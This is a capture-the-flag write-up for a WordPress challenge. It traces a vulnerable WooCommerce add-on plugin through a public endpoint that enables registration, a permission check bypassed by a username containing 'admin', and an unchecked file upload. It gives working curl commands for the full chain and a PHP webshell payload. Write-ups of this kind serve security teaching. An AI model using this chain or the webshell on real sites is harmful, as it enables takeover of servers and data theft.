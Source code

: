 # My-Shop-Disaster

*Author: Patchstack*

I just installed wordpress to sell my stuff with Woocommerce. I found it a bit boring so I installed that other plugin to pimp it, I don't think it could cause a security issue?

This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).

Challenge may take anywhere between 1-3 minutes to fully start up.

NOTE, the challenge has a non-standard flag format. You will find a `CTF{}` wrapper around standard_text.

Press the `Start` button on the top-right to begin this challenge.

### Attachments

- `attachment.zip`
    - *Contains source and development setup scripts*
- `challenge_details.txt`
```
===========
ENVIRONMENT
===========
Latest WordPress installation
Plugins: WooCommerce (source code available online), Woo Variations (source code available in woo-variations folder)

===========
DESCRIPTION
===========
I just installed wordpress to sell my stuff with Woocommerce. I found it a bit boring so I installed that other plugin to pimp it, I don't think it could cause a security issue?

NOTE: this is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).
```

### Analyze

- Scanning source code from `attachment.zip` the bulk of the custom plugin code is located at `challenge-custom/woo-variations/includes/`
- Specifically looking into the `class-woo-variations*.php` files, and focusing mostly on `rest-api.php` and `backend.php`
- Discover public rest api endpoint to enable user registration: `/woo-variations/v1/registration-enable/`
    ```php
    // File: class-woo-variations-rest-api.php
    // ...
    // Line 32
    add_action( 'rest_api_init', array( $this, 'register_customer_registration_enable' ) );
    // ...
    // Line 91
    function register_customer_registration_enable() {
        register_rest_route( 'woo-variations/v1', '/registration-enable/', array(
            'methods'  => 'GET',
            'callback' => array($this, 'registration_enable'),
            'args'     => array(
                'data' => array(
                'required' => false,
                'default'  => array(),
                )
            )
        ));
    }
    // Line 104
    function registration_enable( $data ) {
        update_option( 'users_can_register', 1 );
        wp_send_json('Customer registration enabled');
    }
    ```
- Now we can visit `wp-admin` directly to register a new user:
    - http://challenge.nahamcon.com:1234/wp-admin
- Logged in as regular user, we can see account page and some basic navigation options:
    - Dashboard
        - *Not much here, links to other pages*
    - Orders
        - *Empty list, link to products (also empty)*
    - Downloads
        - *Empty list, link to products (also empty)*
    - Addresses
        - *Forms to edit billing/shipping address details*
    - Account details
        - *Account details form*
    - Log out
- Not much here, looking into address & account forms doesn't show anything helpful or useful.
- So we can register new users after enabling from api, what else can we do with regular user accounts?
    - *Dig into more custom plugin source code!*
- The function that stood out as possibly vulnerable was `set_gallery_picture` in the `backend.php` file:
    - *Added comments with `NOTE:` prefix*
    ```php
    // File: class-woo-variations-backend.php
    // ...
    // Line 133
    public function set_gallery_picture() {
        // NOTE: Custom auth perms check method could be broken "check_permission()"
        if ( !is_admin() || !$this->check_permission() )
        {
            wp_send_json( 'Unauthorized!' );
        }
        
        // NOTE: The verification for $product_id is just as general variable/integer (no DB lookup)
        $product_id = isset( $_POST['product_id'] ) ? intval( $_POST['product_id'] ) : 0;

        // Verify that the product exists and is a WooCommerce product
        if ( $product_id && function_exists( 'wc_get_product' ) ) {
            if ( $_FILES && isset( $_FILES['gallery_picture'] ) ) {
                
                $file = $_FILES['gallery_picture'];
                // NOTE: This check function returns filetype, but doesn't force matches or "die" on error
                $file_type = wp_check_filetype( basename( $file['name'] ), array( 'jpg', 'jpeg', 'png' ) );
                // NOTE: !! MISSING CHECK TO VALIDATE $file_type HERE !!
                $upload_dir = wp_upload_dir();
                $upload_path = $upload_dir['basedir'] . '/woo-gallery/';
                if ( !file_exists( $upload_path ) ) {
                    wp_mkdir_p( $upload_path );
                }

                // NOTE: Here file upload has actually happened and moved to uploads folder
                if (move_uploaded_file( $file['tmp_name'], $upload_path . sanitize_file_name($file['name']) ) ) {
 
    // Other stuff ...

    // Line 257
    function check_permission() {
        // NOTE: Regular users are allowed "manage_options"
        // NOTE: The strpos() function returns position of substr (int) or false if not found (BUT NOT EXACT MATCH)
        if ( !current_user_can( "manage_options" ) && strpos( wp_get_current_user()->user_login, 'admin' ) === false )
        {
            return false;
        }
        
        return true;
    }
    ```

### Exploit

- So now we have uncovered an exploit path that looks like:
    1. Enable user registration
        - The registered endpoint is for `GET` http method, so easy to trigger with simple curl request:
        ```bash
        URL=http://challenge.nahamcon.com:1234
        curl $URL/wp-json/woo-variations/v1/registration-enable/
        # "Customer registration enabled"
        ```
    2. Signup as new user (*can bypass custom admin check*)
        - Visit `/wp-admin` and register new user with `admin` somewhere in the name
            - *Example username: `notadminlol`*
        - Login with new fake admin user
        - Extract auth cookies (`wordpress_*`, etc)
    3. Abuse the set_gallery_picture upload logic
        - Upload exploit to vulnerable ajax endpoint (with user cookie)
        ```php
        // File: flag.php (minimal exploit to show flag)
        <?= file_get_contents('/flag.txt') ?>
        ```
        - With `$cookie` from user, trigger exploit for `flag.php`
        ```bash
        url=${1:-"http://challenge.nahamcon.com:1234"}
        cookie="..."
        curl -vL -F "action=set_gallery_picture" -F "product_id=1" -F "gallery_picture=@flag.php;type=image/png" -H "Cookie: $cookie" $url/wp-admin/admin-ajax.php
        ```
    4. Get the flag!
        - Visit route: `/wp-content/uploads/woo-gallery/flag.php`
    4. Bonus: a webshell!
        - Use webshell payload
        ```php
        // File: shell.php
        <?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
        ```
        - With `$cookie` from user, trigger exploit for `shell.php`
        ```bash
        url=${1:-"http://challenge.nahamcon.com:1234"}
        cookie="..."
        curl -vL -F "action=set_gallery_picture" -F "product_id=1" -F "gallery_picture=@shell.php;type=image/png" -H "Cookie: $cookie" $url/wp-admin/admin-ajax.php
        ```